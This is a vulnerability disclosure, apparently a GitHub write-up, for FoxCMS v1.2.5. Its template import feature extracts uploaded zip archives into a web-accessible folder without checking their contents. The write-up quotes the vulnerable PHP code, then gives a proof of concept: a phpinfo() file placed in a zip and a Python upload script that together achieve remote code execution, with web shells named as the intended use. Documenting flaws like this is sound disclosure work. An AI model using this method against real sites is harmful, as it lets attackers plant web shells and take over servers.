 ## FoxCMS v1.2.5 File Upload Vulnerability

The latest version of FoxCMS v1.2.5 has a file upload vulnerability in the template upload functionality `app\admin\controller\LocalTemplate.php`, which allows attackers to upload a malicious zip archive, extract a PHP web shell, and execute commands.

### Debugging and Analysis

The vulnerability is in the controller file `app\admin\controller\LocalTemplate.php`:

```php
 public function import()
    {
        $allowedExts = array("zip");
        $temp = explode(".", $_FILES["file"]["name"]);
        $extension = end($temp);     // Get the file extension
        if (in_array($extension, $allowedExts)) {
            if ($_FILES["file"]["error"] > 0) {
                return ['code' => 0, 'msg' => "Error: " . $_FILES["file"]["error"]];
            } else {
                // Check if the 'upload' directory exists in the current directory
                // If it doesn't exist, you need to create it, and set the permissions to 777
                if (file_exists("uploads" . DIRECTORY_SEPARATOR . $_FILES["file"]["name"])) {
                    return ['code' => 0, 'msg' => $_FILES["file"]["name"] . " file already exists. "];
                } else {
                    $zipdown = new Zipdown();
                    $fileName = $_FILES["file"]["name"]; // Uploaded file name
                    $fName = $zipdown->cutStr($fileName); // Remove file extension
                    $tem = Template::where('template', $fName)->find();
                    if ($tem) {
                        return ['code' => 0, 'msg' => $fName . " model already exists. "];
                    }
                    $result = UploadFilesModel::uploadFile(DIRECTORY_SEPARATOR . "template" . DIRECTORY_SEPARATOR . "files");
                    if ($result['id'] > 0) {
                        $type = $this->request->param("type");
                        if ($type == "template") { // Model
                            $file_path = config('filesystem.disks.public.root') . DIRECTORY_SEPARATOR . $result['file'];
                            $file = new File($file_path); // Extract file
                            $dirname = config('filesystem.disks.public.root') . DIRECTORY_SEPARATOR . 'templates' . DIRECTORY_SEPARATOR; // Extraction directory

                            $r =  $zipdown->unZipFile($file, $dirname);
    ....
```

The key part here involves calling the `uploadFile` and `unZipFile` methods to handle the upload and extraction.

The `uploadFile` method directly uploads the file without any checks:
```php
    public function uploadFile($folder_name = 'files', $app = 1)
    {
        try {
            $file = request()->file('file');
            // Get file extension
            $ext = $file->getOriginalExtension();
            // Configuration settings
            $config = xn_cfg('upload');
            // Storage type
            $storage = $config['storage'];

            if ($storage == 1) {
                // Upload to Alibaba Cloud OSS
                $oss = new Oss();
                $file_path = $oss->putFile($file, $err, $folder_name);
                if (!$file_path) {
                    return ['code' => 0, 'msg' => $err];
                }
            } elseif ($storage == 2) {
                // Upload to Qiniu Cloud
                $qiniu = new Qiniu();
                $savename = date('Ymd') . '/' . md5((string) microtime(true)) . '.' . $ext;
                $file_path = $qiniu->putFile($savename, $file->getRealPath());
                if (!$file_path) {
                    return ['code' => 0, 'msg' => 'Upload failed'];
                }
            } else {
                // Upload to local server
                $folder = config('filesystem.disks.folder') . $folder_name; // File storage directory
                $savename = Filesystem::disk('public')->putFile($folder, $file);
                if (!$savename) {
                    return ['code' => 0, 'msg' => 'Upload failed'];
                }
                $file_path = $savename;
            }
```

After that, it proceeds to unzip the file without checking the contents, simply extracting it:

```php
public function unZipFile($file, $dirname)
    {
        if (!file_exists($file)) {
            return false;
        }
        // Instantiate zip object
        $zipArc = new \ZipArchive();
        // Open the file
        if (!$zipArc->open($file)) {
            return false;
        }
        // Extract the file
        if (!$zipArc->extractTo($dirname)) {
            // Close the zip file
            $zipArc->close();
            return false;
        }
        return $zipArc->close();
    }
```

From the debugging, we found that the extraction path is:

```r
/uploads/templates/
```
![](./public/5-1.png)
An attacker can upload a zip file containing a PHP web shell, which will then be executed.

### Exploiting the Vulnerability

Create a zip file with a `2.php` containing the following PHP code:

```php
<?php

phpinfo();
```

Then, write a script to upload the zip file:

```python
import requests

session = requests.session()

burp0_url = "http://test.com:80/index.php/admin9483/LocalTemplate/import"
burp0_cookies = {"index_hkcms_lang": "zh-cn", "admin_hkcms_lang": "zh-cn", "PHPSESSID": "d52d103f2d77e16ea326d86111ae1f42", "access_127_0_0_1": "1737855575"}

session.get(burp0_url, cookies=burp0_cookies)
# Path to the zip file to upload
file_path = r"C:\Users\86150\Desktop\2.zip"  # Replace with the actual path to your ZIP file

# Open the file and upload it
with open(file_path, 'rb') as f:
    files = {'file': (file_path, f, 'application/zip')}
    response = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, files=files, data={"type": "template"})

# Output the response
print(response.text)
```

After uploading, the PHP code in the zip will be executed, and you can access it through the following path:

```r
/uploads/templates/2.php
```
![](./public/5-2.png)
